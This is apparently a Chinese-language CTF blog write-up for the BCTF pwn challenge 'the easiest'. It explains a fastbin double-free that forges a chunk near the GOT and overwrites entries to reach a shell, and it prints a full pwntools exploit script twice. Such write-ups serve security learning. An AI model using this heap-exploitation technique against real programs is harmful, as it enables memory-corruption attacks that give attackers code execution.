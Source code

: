 ```yaml
---
layout:     post
title:      BCTF write up
subtitle:    pwn
date:       2018-12-7
author:     XT
header-img: img/post-bg-coffee.jpeg
catalog: 	 true
tags:
    - pwn
---
```



> BCTF

# the easiest

首先checksec，查看保护，没有pie保护，我们可以尝试写got表。

![1544151410259](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1544151410259.png)

总共有两个选择add，delete。

![1544151429146](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1544151429146.png)

并且delete可以删除

我 们IDA中有一个hint函数，因为我们看到got表有system所以，找一下，就找到了！

![1544155933667](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1544155933667.png)

我们可以修改got表，然后跳到这里就可以了。

至于这个程序，随便看一下，就知道是个double free的问题！

```python
#coding:utf8
from pwn import *
import sys

def add(id,size,content):
        p.sendlineafter("2 delete","1")
        p.sendlineafter("(0-11):",str(id))
        p.sendlineafter("Length:",str(size))
        p.sendlineafter("C:",content)

def free(id):
        p.sendlineafter("2 delete","2")
        p.sendlineafter("(0-11):",str(id))

def debugf():
        gdb.attach(p,"b *0x400D38")


context.log_level = "debug"
context.terminal = ["tmux","splitw","-v"]
p=process("./1")
elf=ELF("./1")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
add(1,100,"aaaaaaaaaaaaaaaaaaaaaaaaa")

add(2,100,"bbbbbbbbbbbbbbbbbbbbbbbb")

if sys.argv[1]=="y":
         debugf()

free(1)
free(2)
free(1)
```

这里没有报错，然后我们就可以构造任意的chunk进行写入。然后我们思考构造那个chunk呢？

我们可以看到got表区域，后4位为0x7f.

![1544158629895](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1544158629895.png)

所以可以伪造这个chunk，然后进行got表的修改。

```python
free(1)
free(2)
free(1)
pause()
```

free3次然后malloc把第一块的值写为我们伪造的块的地址，然后malloc两次，我们的fasbin就指向了我们伪造的chunk，这个时候如果再malloc就可以修改got表了。

```python
add(1,0x68,p64(0x602045))
add(2,0x68,"hh")
payload = '\x00\x00\x00' + p64(0x400946) * 6
add(3,0x68,"hhh")######此时指向的就是我们伪造的chunk了
add(4,0x68,payload)
```

![1544158909167](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1544158909167.png)

![1544159354143](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1544159354143.png)

可见我们已经修改成功，接着就是scanf的got调用，接着就getshell了

脚本如图

```python
#coding:utf8
from pwn import *
import sys

def add(id,size,content):
        p.sendlineafter("2 delete","1")
        p.sendlineafter("(0-11):",str(id))
        p.sendlineafter("Length:",str(size))
        p.sendlineafter("C:",content)

def free(id):
        p.sendlineafter("2 delete","2")
        p.sendlineafter("(0-11):",str(id))

def debugf():
        gdb.attach(p,"b *0x400D38")


context.log_level = "debug"
context.terminal = ["tmux","splitw","-v"]
p=process("./1")
elf=ELF("./1")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
add(1,100,"aaaaaaaaaaaaaaaaaaaaaaaaa")

add(2,100,"bbbbbbbbbbbbbbbbbbbbbbbb")

if sys.argv[1]=="y":
         debugf()

free(1)
free(2)
free(1)
pause()
add(1,0x68,p64(0x602045))
add(2,0x68,"hh")
payload = '\x00\x00\x00' + p64(0x400946) * 6
add(3,0x68,"hhh")

add(4,0x68,payload)
p.interactive()
```

